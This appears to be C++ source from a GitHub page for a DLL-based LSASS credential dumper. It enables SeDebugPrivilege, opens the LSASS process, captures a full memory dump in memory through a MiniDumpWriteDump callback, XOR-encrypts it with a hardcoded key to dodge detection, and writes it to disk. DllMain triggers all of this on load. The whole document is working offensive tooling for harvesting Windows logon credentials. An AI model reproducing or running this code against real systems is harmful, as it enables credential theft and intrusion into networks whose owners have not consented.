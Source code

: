 ```cpp
	printf("[+] Searching for LSASS PID\n");
	int pid = FindPID("lsass.exe");
	if (pid == 0) {
		printf("[-] Could not find LSASS PID\n");
		return 0;
	}
	printf("[+] LSASS PID: %i\n", pid);
	
	// Make sure we have SeDebugPrivilege enabled
	if (!SetDebugPrivilege())
		return 0;

	// Open handle to LSASS
	HANDLE hProc = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, false, pid);
	if (hProc == NULL) {
		printf("[-] Could not open handle to LSASS process\n");
		return 0;
	}

	// Create a "MINIDUMP_CALLBACK_INFORMATION" structure that points to our DumpCallbackRoutine as a CallbackRoutine
	MINIDUMP_CALLBACK_INFORMATION CallbackInfo = { 0 };
	CallbackInfo.CallbackRoutine = DumpCallbackRoutine;

	// Do full memory dump of lsass and use our CallbackRoutine to handle the dump data instead of writing it directly to disk
	BOOL success = MiniDumpWriteDump(hProc, pid, NULL, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);
	if (success) {
		printf("[+] Successfully dumped LSASS to memory!\n");
	} else {
		printf("[-] Could not dump LSASS to memory\n[-] Error Code: %i\n", GetLastError());
		return 0;
	}

	// Xor encrypt our dump data in memory using the specified key
	char key[] = "jisjidpa123";
	printf("[+] Xor encrypting the memory buffer containing the dump data\n[+] Xor key: %s\n", key);
	XOR((char*)dumpBuffer, dumpSize, key, sizeof(key));

	// Create file to hold the encrypted dump data
	HANDLE hFile = CreateFile("LSASS_ENCRYPTED.DMP", GENERIC_ALL, FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	
	// Write the encrypted dump data to our file
	DWORD bytesWritten = 0;
	WriteFile(hFile, dumpBuffer, dumpSize, &bytesWritten, NULL);
	printf("[+] Enrypted dump data written to \"LSASS_ENCRYPTED.DMP\" file\n");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
	if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
		MessageBox(NULL, "Running LsassDumper.dll", "LsassDumper.dll", MB_OK);
		main(0, {});
	}
	return TRUE;
}
```
